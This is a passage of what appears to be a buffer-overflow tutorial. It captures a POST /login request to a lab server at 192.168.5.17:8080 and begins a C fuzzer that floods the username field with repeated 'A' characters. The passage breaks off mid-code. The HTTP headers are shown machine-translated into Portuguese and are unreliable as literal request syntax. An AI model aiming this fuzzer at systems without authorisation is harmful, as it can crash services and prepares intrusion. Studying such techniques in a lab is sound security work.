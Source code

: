 What draws attention at this moment is the POST method, which is accessing /login.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*yDp5OKjujv8dqlEADMy4tg.png)

The application has some input fields, which allows us to build a fuzzer to analyze potential vulnerabilities. For that, we will use the following HTTP request header, where we will inject random data and perform tests for our BOF.

<pre>POST /login HTTP/1.1 
Host: 192.168.5.17:8080 
Conexão: keep-alive 
Comprimento do conteúdo: 37 
Controle do cache: max-age=0 
Origem: http://192.168.5.17:8080 
Tipo de conteúdo: application/x-www-form-urlencoded 
Solicitações de atualização inseguras: 1 
Agente do usuário: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, como Gecko) Chrome/134.0.0.0 Safari/537.36 
Aceitar: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 
Referenciador: http://192.168.5.17:8080/login 
Aceitar-Codificação: gzip, deflate 
Aceitar-Idioma: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7

 username=teste1234&password=senha1234</pre>

## Building and Testing Our Fuzzer:
With the header in hand, we can start building our fuzzer in C language, targeting the /login endpoint. I am breaking the code into parts for better understanding.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define SERVER_IP "192.168.5.17"
#define SERVER_PORT 8080
#define BUFFER_SIZE 4096

int main() {
    int sock;
    struct sockaddr_in server;
    char buffer[BUFFER_SIZE];
    
    for (int fuzz = 100; fuzz <= 2000; fuzz += 100) {
        char *buf = (char *)malloc(fuzz + 1);
        memset(buf, 'A', fuzz);
        buf[fuzz] = '\0';

        char payload[BUFFER_SIZE];
        snprintf(payload, sizeof(payload), "username=%s&password=123456", buf);

        char request[BUFFER_SIZE];
        snprintf(request, sizeof(request),
            "POST /login HTTP/1.1\r\n"
            "Host: %s:%d\r\n"
            "Connection: keep-alive\r\n"
            "Content-Length: %lu\r\n"
            "Cache-Control: max-age=0\r\n"
            "Origin: http://%s:%d\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            "Upgrade-Insecure-Requests: 1\r\n"
```